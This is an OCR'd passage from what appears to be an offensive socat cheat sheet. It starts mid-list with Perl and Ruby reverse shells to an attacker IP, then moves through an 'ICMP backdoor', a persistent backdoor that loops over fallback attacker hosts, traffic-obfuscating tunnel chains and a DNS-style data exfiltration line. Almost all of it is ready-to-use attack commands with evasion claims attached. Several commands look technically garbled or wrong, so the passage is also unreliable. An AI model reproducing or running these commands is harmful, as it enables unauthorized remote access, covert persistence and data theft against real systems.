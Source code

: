     socat TCP:<attack_ip>:<attack_port> EXEC:'/usr/bin/perl -e "use Socket; socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname(\'tcp\')); connect(SOCK, sockaddr_in(<attack_port>, inet_aton(\'<attack_ip>\'))); open(STDIN, \">&SOCK\"); open(STDOUT, \">&SOCK\"); open(STDERR, \">&SOCK\"); exec(\'/bin/sh -i\');"' || \
    socat TCP:<attack_ip>:<attack_port> EXEC:'/usr/bin/ruby -rsocket -e "exit if fork; c=TCPSocket.new(\'<attack_ip>\',\'<attack_port>\'); while(cmd = c.gets); IO.popen(cmd, \'r\'){|io| c.print io.read} end"'
    ```
6. **ICMP Backdoor**: Creates a covert ICMP-based backdoor that can evade many network detection systems.
    ```bash
    socat ICMP-RECVFROM:<local_ip> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
7. **Persistent Backdoor with Multiple Fallbacks**: Creates a persistent backdoor with multiple fallback IPs and ports to maintain access.
    ```bash
    while true; do 
      socat TCP:<attack_ip1>:<attack_port1> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane || 
      socat TCP:<attack_ip2>:<attack_port2> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane || 
      socat TCP:<attack_ip3>:<attack_port3> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane;
      sleep 60; 
    done
    ```

#### Proxying and Tunneling

1. **SOCKS5 Proxy Setup**: Creates a SOCKS5 proxy that allows you to route traffic through an intermediate system.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SOCKS5:<target_ip>:<target_port>
    ```
2. **Layered Tunneling for Obfuscation**: Chains multiple tunnels together to obfuscate traffic, making it more difficult to detect.
    ```bash
    socat TCP-LISTEN:<local_port1>,reuseaddr,fork TCP:<intermediate_ip1>:<intermediate_port1> | socat - TCP:<intermediate_ip2>:<intermediate_port2> | socat - TCP:<target_ip>:<target_port>
    ```
3. **Reverse Proxy with Authentication**: Configures a reverse proxy that requires HTTP authentication.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"echo 'HTTP/1.1 407 Proxy Authentication Required\r\nProxy-Authenticate: Basic realm=\"Proxy\"\r\n\r\n' | socat - TCP:<target_ip>:<target_port>"
    ```
4. **Dynamic Port Forwarding with Traffic Shaping**: Creates a dynamic port forward with traffic shaping to simulate legitimate network behavior.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"tc qdisc add dev eth0 root netem delay 100ms" | socat - TCP:<target_ip>:<target_port>
    ```
5. **DNS Tunneling**: Exfiltrates data using DNS queries, which can often bypass traditional security mechanisms.
    ```bash
    socat UDP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"echo <data_to_exfiltrate> | xxd -p | sed 's/\(..\)/\1./g' | socat - TCP:<dns_server>:53"
    ```
